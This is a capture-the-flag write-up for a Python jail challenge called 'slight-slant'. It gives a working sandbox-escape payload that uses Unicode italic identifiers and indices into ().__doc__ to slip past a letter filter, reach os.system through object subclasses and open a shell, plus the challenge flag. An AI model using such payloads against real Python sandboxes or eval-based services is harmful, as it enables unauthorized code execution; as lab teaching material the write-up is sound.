

# slight-slant

Author: Sean 3

**Difficulty: Medium**

## Description

obligatory pyjail chall

## Solution

Since all letters are filtered, we can use a font like https://lingojam.com/ItalicTextGenerator to bypass the filter and put whatever we like without the filter in our way.

Using `𝘱𝘳𝘪𝘯𝘵(().__𝘤𝘭𝘢𝘴𝘴__.__𝘣𝘢𝘴𝘦__.__𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴__())`, we find that the os._wrap_close class is at index 137 (0-indexed), which we can make use of to get a shell.



We can now attempt to get a shell with 
```py
().__𝘤𝘭𝘢𝘴𝘴__.__𝘣𝘢𝘴𝘦__.__𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴__()[137].__𝘪𝘯𝘪𝘵__.__𝘨𝘭𝘰𝘣𝘢𝘭𝘴__["𝘴𝘺𝘴𝘵𝘦𝘮"]("𝘴𝘩")
```

However, this does not work as "system" and "sh" cannot be italics as it is a string. At the same time, it cannot be written normally due to the filter. 

One way to bypass this is to use the docs. For this writeup I will be using `().__doc__` just because it would be relatively shorter as compared to something like `print.__doc__`.

To quickly convert a string to an index of `().__doc__`, I wrote a simple script at ./solve/string_encoder.py
```py
def find(a):
    b = ""
    first = True
    for char in a:
        if first == True:
            b += ("().__doc__[" + str(().__doc__.index(char)) + "]")
            first = False
        else:
            b += (" + ().__doc__[" + str(().__doc__.index(char)) + "]")

    return b

print("system: " + find("system"))
print("sh: " + find("sh"))
```

```
Output:
system: ().__doc__[19] + ().__doc__[86] + ().__doc__[19] + ().__doc__[4] + ().__doc__[17] + ().__doc__[10]
sh: ().__doc__[19] + ().__doc__[56]
```

We can now replace the strings with these and get a working payload (which still needs to be italicized):
```py
().__𝘤𝘭𝘢𝘴𝘴__.__𝘣𝘢𝘴𝘦__.__𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴__()[137].__𝘪𝘯𝘪𝘵__.__𝘨𝘭𝘰𝘣𝘢𝘭𝘴__[().__𝘥𝘰𝘤__[19] + ().__𝘥𝘰𝘤__[86] + ().__𝘥𝘰𝘤__[19] + ().__𝘥𝘰𝘤__[4] + ().__𝘥𝘰𝘤__[17] + ().__𝘥𝘰𝘤__[10]](().__𝘥𝘰𝘤__[19] + ().__𝘥𝘰𝘤__[56])
```

Using this, we get a shell and after `ls` and `cat flag.txt`, we get the flag `ACSI{w0w_pr0_pyj411_h4xx0r_39ec1f}`
